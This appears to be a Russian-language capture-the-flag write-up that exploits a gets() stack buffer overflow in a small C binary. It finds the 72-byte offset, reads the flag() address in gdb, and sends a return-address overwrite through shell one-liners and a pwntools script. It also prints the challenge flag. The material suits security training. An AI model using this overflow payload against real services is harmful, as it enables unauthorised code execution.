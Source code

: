 # tired of nulls writeup

Нам дан код на C, использующий небезопасную функцию [gets()](https://www.c-cpp.ru/content/gets) и самописная функция flag(), которая выводит переменную окружения. 

Внимательно просмотрев код, можно заметить, что функция flag() не вызывается в нашем main, там вообще ничего не вызывается.

### Что же делать? 
Обратить внимание, что буфер заполняется через gets(). Нужно понять, как ее проэксплуатировать (подсказка: размер введенной строки пользователя может быть БОЛЬШЕ, чем размер нашего буфера).

Теперь узнаем адрес нашего [rip регистра](https://linux-doc.ru/programming/assembler/architecture/rip.php), чтобы понять, как это сделать, будем использовать скомпилированный файл 3asypwn и python. Суть в том, чтобы получить [SEGFAULT](https://ru.wikipedia.org/wiki/%D0%9E%D1%88%D0%B8%D0%B1%D0%BA%D0%B0_%D1%81%D0%B5%D0%B3%D0%BC%D0%B5%D0%BD%D1%82%D0%B0%D1%86%D0%B8%D0%B8), благодаря этому узнаем смещение до нашего rip регистра.

Делается это с помощью команды `python -c "print 'A'* OFFSET" | ./3asypwn`, изначально примем `OFFSET=64`, потому что буфер именно такого размера, и будем увеличивать его на 4 до тех пор, пока не получим нужную ошибку. Произойдет это при 72 сдвиге, значит следующие 16 байтов - rip. Их нужно изменить, но на какое значение? 

Настало время [gdb](https://ru.wikipedia.org/wiki/GNU_Debugger). С его помощью легко можно узнать адрес функции flag(), запускаем `gdb -q ./3asypwn` и прописываем `disas flag` - в первой строке получаем то, что искали `0x0000000000400607`.

### Вызовем функцию! 
Это можно сделать двумя способами:

1. bash: `python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]" | ./3asypwn`
2. gdb: ```r -A < <(python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]")```

Второй способ позволяет передать в gdb null-bytes (\x00), в отличие от способа передачи $(), который их игнорирует.

Функция отработала, отлично, теперь переходим к боевому стенду! Для удобства работы напишем python скрипт.

```python
from pwn import *

conn = remote('TARGET_IP', TARGET_PORT)

OFFSET = 72
payload = OFFSET * 'A' + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1] 
conn.sendline(payload)
print(conn.recv())
```

 Отправляем нашу полезную нагрузку и получаем флаг: **kxctf{u_@r3_str0ng_0n3_but_th4ts_n0t_4ll_OxSBI}**
